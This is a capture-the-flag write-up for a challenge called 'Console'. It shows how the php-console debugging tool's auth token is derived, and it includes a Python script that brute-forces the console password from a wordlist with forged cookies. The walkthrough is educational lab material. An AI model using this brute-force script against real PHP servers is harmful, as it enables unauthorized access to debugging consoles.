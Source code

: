 # Console

So when we launch the challenge and go on the webpage we are greeted with a php info page with something that stands out:

<figure><img src="../../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

after looking up what was php-console we can see this repository:

{% embed url="https://github.com/barbushin/php-console" %}

So from what i see i need to launch the tool in a chromium browser and it's not in the extension store so i clone the repo of the extension, go in the extension manager and load the unpacked extension and select the php console extension folder, update and we'll be good:

<figure><img src="../../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>Now we can use it </p></figcaption></figure>

So let's go back on our phpinfo page and refresh it, the extension should prompt us for some sort of password:

<figure><img src="../../../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

I enter test as... a test and nothing seems to change and then i decide to go and see the cookies of our page and see a php-console cookie that was not here before:

<figure><img src="../../../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

So i go and decode the base64 cookie to reveal the interesting content:

<figure><img src="../../../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

So i mess around for some time trying to see how the token is crafted then i try and re input a random password (helloworld) and see that the cookie changes slightly:

<figure><img src="../../../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

publicKey stayes the same but token changes and if a reinput the same password, the token is always the same so the token must be crafted using the password and god knows what other parameters

If we go in the github of the tool and look at the Auth.js file we find exactly what we want:

```javascript
function DomainAuth(domain, publicKey, passwordHash) {

	this.domain = domain;
	this.publicKey = publicKey;
	this.hash = passwordHash;

	this.getAuthToken = function() {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey).toString();
		}
	};

	this.getSignature = function(string) {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey + string).toString();
		}
	};

	this.getClientAuth = function() {
		var token = this.getAuthToken();
		if(token && this.publicKey) {
			return {
				'publicKey': this.publicKey,
				'token': token
			}
		}
	};
}
```

`this.getAuthToken` generates an authentication token by hashing the concatenation of `this.hash` and `this.publicKey` using the **SHA256** algorithm provided by `CryptoJS`

I am very bad with scripts for the moment so i went and got a script from a writeup:

```python
from pwn import *
import requests
import json

url = 'http://83.136.253.73:49889'
wordlist = open('/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt', 'r')
salt = 'NeverChangeIt:)'  # Salt used in hashing
public_key = '370244b500c702b16dddb1678c882d2b7aa0b3bcdf94fb6bb9e792460c5d460b'  # Grab from response header

for count, password in enumerate(wordlist):
    password = password.strip()
    if password:
        # sha256 the password and salt
        hashed_password = sha256sumhex((password + salt).encode())
        # sha256 the hashed password and the public key
        token = sha256sumhex((hashed_password + public_key).encode())

        # Build up a cookie
        php_console_server = 'php-console-server=5;'
        php_console_client = '{"php-console-client":5,"auth":{"publicKey":"' + public_key + '","token":"' + token + '"}}'
        headers = {'Cookie': php_console_server + 'php-console-client=' + b64e(php_console_client.encode())}

        # Send the request and grab PHP console header response
        response = requests.get(url, headers=headers)
        php_console_response = json.loads(response.headers['PHP-Console'])

        # Success?
        if php_console_response['auth']['isSuccess'] != False:
            print("Success! Correct password was: " + password)
            wordlist.close()
            quit()

print("Failed to find correct password :(")
wordlist.close()
```

and after getting the password and inputting it in the php console we were able to get the flag in the header of the app:

<figure><img src="../../../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
